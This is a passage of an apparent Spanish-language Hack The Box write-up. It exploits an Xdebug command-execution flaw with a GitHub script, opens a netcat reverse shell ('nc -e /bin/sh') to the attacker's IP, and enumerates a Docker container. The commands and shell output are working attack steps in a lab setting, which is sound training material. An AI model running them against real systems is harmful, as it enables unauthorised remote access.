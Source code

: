 ```bash
❯ searchsploit Xdebug 2.5.5
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
xdebug < 2.5.5 - OS Command Execution (Metasploit)                                             | php/remote/44568.rb
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Vemos que existen un módulo de metasploit, pero nosotros no ocupamos eso; así que buscamos un exploit en github:

[Xdebug Command Execution](https://github.com/k4miyo/Xdebug-Command-Execution)

Nos descargamos el exploit y procedemos a ejecutarlo indicandole los valores que nos solicita.

```bash
❯ python3 xdebug_rce.py --rhost 10.10.10.83 --lhost 10.10.14.16
[+] Payload: Connection received from 10.10.10.83:41632 on port 9000
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.83 on port 59748
[+] Reverse shell: Established connection
[*] Switching to interactive mode
$ whoami
www-data
```

Para trabajar más cómodos, nos entablamos una reverse shell. Así mismo, hacemos un [Tratamiento de la tty](/tratamiento-tty):

```bash
$ nc -e /bin/sh 10.10.14.16 443
$ 
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.83] 59750
whoami
www-data
```

Observando un poco la terminal, vemos que nos encontramos en un contenedor, debido a que el prompt se nota `www-data@f00ba96171c5:/var/www/html`, además de que la dirección IP no corresponde con la máquina:

```bash
ww-data@f00ba96171c5:/var/www/html$ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:ac:14:00:02  
          inet addr:172.20.0.2  Bcast:172.20.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:645 errors:0 dropped:0 overruns:0 frame:0
          TX packets:501 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:45176 (44.1 KiB)  TX bytes:50772 (49.5 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
```